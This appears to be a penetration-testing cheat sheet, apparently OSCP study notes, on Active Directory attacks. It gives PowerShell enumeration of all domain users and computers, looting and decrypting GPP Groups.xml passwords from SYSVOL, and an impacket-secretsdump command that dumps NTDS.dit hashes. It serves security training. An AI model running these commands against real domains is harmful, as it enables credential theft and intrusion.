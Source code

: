### Enumerate users and computers using powershell

```
Get-ADComputer -Filter * -Properties *  | Select-Object @{Label = "Computer Name";Expression = {$_.Name}},@{Label = "Last Logon Date";Expression = {$_.LastLogonDate}} 
Get-ADUser -Filter * -Properties *  | Select-Object @{Label = "Logon Name";Expression = {$_.sAMAccountName}},  
                  @{Label = "Last LogOn Date";Expression = {$_.LastLogonDate.ToString('yyyy-MM-dd')}}, 
                  @{Label = "Created Date";Expression = {$_.whenCreated.ToString('yyyy-MM-dd')}}, 
                  @{Label = "7 Month Dormant";Expression = {if (( $_.LastLogonDate -gt 1990/01/01 -and $_.LastLogonDate -lt $time)  ) {'True'} Else {'False'}}}, 
                  @{Label = "Password Expire";Expression = {if (($_.PasswordNeverExpires -eq 'TRUE')  ) {'Enabled'} Else {'Disabled'}}}, # the 'if statement# replaces $_.Enabled 
                  @{Label = "Account Status";Expression = {if (($_.Enabled -eq 'TRUE')  ) {'Enabled'} Else {'Disabled'}}}, # the 'if statement# replaces $_.Enabled  
                  @{Label = "Admin User";Expression =  {if (($_.adminCount -eq '1')  ) {'TRUE'} Else {'FALSE'}}}, # the 'if statement# replaces $_.Enabled 
                  @{Label = "Description";Expression = {$_.Description}},  
                  @{Label = "Applications";Expression = {$_.info}}, 
                  @{Label = "First Name";Expression = {$_.GivenName}},   
                  @{Label = "Last Name";Expression = {$_.Surname}},  
                  @{Label = "Display Name";Expression = {$_.DisplayName}}, 
                  @{Label = "Job Title";Expression = {$_.Title}},  
                  @{Label = "Company";Expression = {$_.Company}}, 
                  @{Label = "Department";Expression = {$_.Department}},  
                  @{Label = "Office";Expression = {$_.OfficeName}},  
                  @{Label = "Phone";Expression = {$_.telephoneNumber}},  
                  @{Label = "Email";Expression = {$_.Mail}}
```

### Group Policy Preferences (GPP)

A common useful misconfiguration found in modern domain environments is unprotected Windows GPP settings files

* Map the Domain controller SYSVOL share
```net use z:\\dc01\SYSVOL```

* Find the GPP file: Groups.xml
```dir /s Groups.xml```

* Review the contents for passwords
```type Groups.xml```

* Decrypt using GPP Decrypt
```gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB```

### Dump the AD

```
impacket-secretsdump -system 'root/Documents/OSCP/10.11.X.XXX/system.save' -ntds '/root/Documents/OSCP/10.11.X.XXX/ntds.dit' LOCAL
```

# References

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/2b1900e046daa89d2ac31e108f001df80e0ccc43/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#looting-for-passwords
* https://sushant747.gitbooks.io/total-oscp-guide/tcp-dumps_on_pwnd_machines.html
* https://github.com/wwong99/pentest-notes/blob/master/oscp_resources/OSCP-Survival-Guide.md
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/5455c30ec7ef7aa4a4e17959709469941ada8379/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
* https://sushant747.gitbooks.io/total-oscp-guide/loot_windows_-_for_credentials_and_other_stuff.html
* https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/
```